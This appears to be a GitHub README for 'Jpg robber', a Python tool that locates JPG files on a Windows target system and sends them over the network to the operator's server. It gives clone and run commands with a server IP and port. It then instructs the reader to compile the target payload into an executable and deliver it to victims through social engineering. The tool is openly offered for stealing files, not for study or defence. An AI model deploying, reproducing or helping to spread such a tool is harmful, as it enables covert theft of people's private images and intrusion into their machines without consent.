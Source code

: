 # Jpg robber
A python script for stealing Jpg files through the network. 
This script allows you to identify files with jpg format in the target system and  drives then quickly send and save files to your server through the network.

## Usage
```bash
git clone https://github.com/AmireNoori/Jpg-Robber.git
```

1-run this command in the path of the robber.py on your terminal:

```bash
python robber.py [Your server IPV4] [Your custom port]
```
Also you can use :
```bash
python robber.py -h
```

Example: 
```bash
python robber.py 192.168.1.1 1234
```
Note: make sure that the port you enter can be used on your target system and your server

2-After the server.py & target.py were created in your path , Run the server.py  on your server And about target.py you can use the pyinstaller library According to your needs, convert it into an executable file and give it to your target or run it on the target system through social engineering.
Note that this script is programmed to find jpg files in Windows

## Dependencies
- python 3.9.6
- pyfiglet (can be installed via `pip install pyfiglet`)
